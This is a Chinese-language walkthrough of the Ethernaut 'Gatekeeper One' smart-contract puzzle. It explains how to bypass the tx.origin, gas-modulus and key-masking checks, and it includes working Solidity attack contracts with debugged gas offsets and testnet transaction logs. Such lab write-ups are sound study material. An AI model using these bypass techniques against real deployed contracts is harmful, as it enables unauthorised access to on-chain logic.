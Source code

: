 Make it past the gatekeeper and register as an entrant to pass this level.

##### Things that might help:

- Remember what you've learned from the Telephone and Token levels.
- You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

// Goerli address: 0xFDfe657A2Ba7c7592B3d84E8618B6ac52eC3Bf7f
contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```











这个puzzle需要用到的技术概念可以参考这个链接：https://medium.com/coinmonks/ethernaut-lvl-13-gatekeeper-1-walkthrough-how-to-calculate-smart-contract-gas-consumption-and-eb4b042d3009



**gateOne** modifier很简单，msg.sender != tx.origin, 要想使其成立，中间再加有一个contract就可以了



**gateThree** modifier则需要满足一系列的require

如果想要使一个x满足 uint32(x) == uint16(x)，uint16转为uint32之后的高16位必定是自动填补的0，所以保证uint32的高16位是0就可以了，那么让 x = x & 0x0000FFFF 屏蔽掉了高16位使其全部为0

如果想要使一个x满足 uint32(x) != uint64(x)，uint32转为uint64之后的高32位必定是自动填补的0，要保证高32位不同，那么让 x =  x & 0xFFFFFFFF+0000FFFF 就可保留x的高32位内容

如果想要使一个x满足 uint32(x) == uint16(tx.origin)，满足这一条让 x = tx.origin & 0x0000FFFF 就行了，和第一条重叠了

所以最终的 **bytes8 key = bytes8(tx.origin) & 0xFFFFFFFF0000FFFF;**



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";

interface GatekeeperOne {
   function enter(bytes8) external returns (bool);
}

// Goerli address: 0x0B8a25D421FAd49042E874d95D021fab2862930C
contract Hack {
	GatekeeperOne gate = GatekeeperOne(address(0xFDfe657A2Ba7c7592B3d84E8618B6ac52eC3Bf7f));

    bytes8 key = bytes8(uint64(uint160(tx.origin)) & 0xFFFFFFFF0000FFFF);

    function enterGate() public {
      (bool success,) = 
        address(gate).call{gas: 8191 * 4 + 211}(abi.encodeWithSignature("enter(bytes8)", key));

		console.log(success);
    }
}
```

**gateTwo** modifier需要满足 gasleft().mod(8191) == 0 ，首先gasleft()是solidity的内置函数，就是用来返回remaining gas的，这里为什么使用address.call形式呢，是因为**enter**函数没有payable，所以直接**gate.enter**会报错

接下来，当我们调用**enterGate**，在**enterGate**中又调用了**enter**，当执行到**gateTwo** modifier的时候会获取当前剩余的gas值，对其进行模8191运算，所以想要通过这个modifier的关键点在于如何获取一个准确的值，因为执行opcode会消耗gas，所以我们需要在执行到enter的gateTwo的gasleft这个函数之前消耗了多少gas，所以需要进行debug，此时我们设置一个整数值**call{gas: 3000}**，便于计算，然后将两个contract都部署到remix的Remix VM(London)中，然后点击Hack contract上的enterGate按钮，再点下边的debug，进行debug

![](debug1.png)

如上图所示，进入到这里，在还没执行CALL这个opcode之前，注意右边代码区，我们还在enterGate函数中

![](debug2.png)

当执行了CALL之后就进入到enter中了，此时可以看到remaining gas是3000 （如果之前设置一个比较高的值5000或者80000，运行到这里gas会变少，应该是remix的bug，这里先忽略）

![](debug3.png)

当debug到这里的时候，我们看到了GAS这个opcode，它就是gasleft()编译产生的，并且右边代码区也显示了我们正在gateTwo中，此时我们已经执行了GAS(Get the amount of available gas, including the corresponding reduction for the cost of this instruction) ，还没有执行SWAP1，此时的remaining gas是2789，所以这也就意味着从进入刚进入enter时候的3000，到这里一共消耗了3000 - 2789 = 211这么多的gas，所以我们获得了准确的gas消耗，就可以在开始的时候传入准确的数值来达到模8191为0的目的了

所以我们将代码改为 **call{gas: 8191 * 4 + 211}** ，并且重新将两个contract部署到**Goerli testnet**上，并且点击Hack中的enterGate会弹出Metamask来签署交易，记得在设置里将gas limit该为60000，交易上链之后再点击Gatekeeper One中的entrant

![](debug4.png)

可以看到entrant已经变为我们Metamask中的地址了

最后，为了完成puzzle，我们需要把Hack contract中GatekeeperOne的地址改为instance的值，再走一边上述流程，但是结果可能会不一样，点击entrant之后，它的值全是0，没有发生变化，具体原因不清楚，我个人猜测是GatekeeperOne contract编译的差别，所以这里直接对点击enterGate产生的那笔交易进行debug，debug出来从进入enter到gasleft()一共消耗了196 gas，而不是之前的211，所以修改代码重新部署并再走一遍流程，这时点击entrant终于变为Metamask中的地址了

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "hardhat/console.sol";

interface GatekeeperOne {
   function enter(bytes8) external returns (bool);
}

// Goerli address: 0x9304E2B1050e152bE16631fdA6500d96cF3F0e1a
contract Hack {
	GatekeeperOne gate = GatekeeperOne(address(0xFDfe657A2Ba7c7592B3d84E8618B6ac52eC3Bf7f));

    bytes8 key = bytes8(uint64(uint160(tx.origin)) & 0xFFFFFFFF0000FFFF);

    function enterGate() public {
      (bool success,) = 
        address(gate).call{gas: 8191 * 4 + 196}(abi.encodeWithSignature("enter(bytes8)", key));

		console.log(success);
    }
}
```





如果都部署到Remix VM中的话，debug时候会有个bug，就是remix不能像Metammask那样指定发起交易能使用多少gas，这个[issue](https://github.com/ethereum/remix-project/issues/147)是remix官网GitHub上一个人提的，总之一句话用remix gui发起的交易有问题，部署到testnet上用Metamask发起交易才是最正确的做法，后边先暂时不用看







下边是部署到remix的vm中，点击enterGate之后的log，由于这笔交易是remix gui发起的，可以看到，整笔交易提供的gas是59795

```json
status	true Transaction mined and execution succeed
transaction hash	0xf9ab997e885e74fb7944dc95c5f86349542bb82d98a1920bb5ac52411ce4868b
from	0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
to	Hack.enterGate() 0xd8b934580fcE35a11B58C6D73aDeE468a2833fa8
gas	59795 gas
transaction cost	29577 gas 
execution cost	29577 gas 
input	0xc8a...d2499
decoded input	{}
decoded output	{}
logs	[]
val	0 wei
```



```json

status	true Transaction mined and execution succeed
transaction hash	0xed0696e5d1e64bd6f66c562e99fea6fc99f8bebbf5d05d0da2aea60667c4e678
from	0x7FA7fB4D35f0F4F3959A65098D1D9Cf69E49Ac48
to	Hack.enterGate() 0x0B8a25D421FAd49042E874d95D021fab2862930C
gas	60000 gas
transaction cost	51995 gas 
input	0xc8a...d2499
decoded input	{}
decoded output	 - 
logs	[]
val	0 wei
```

设置了gaslimit为60,000

部署到Goerli testnet上之后一切都正常了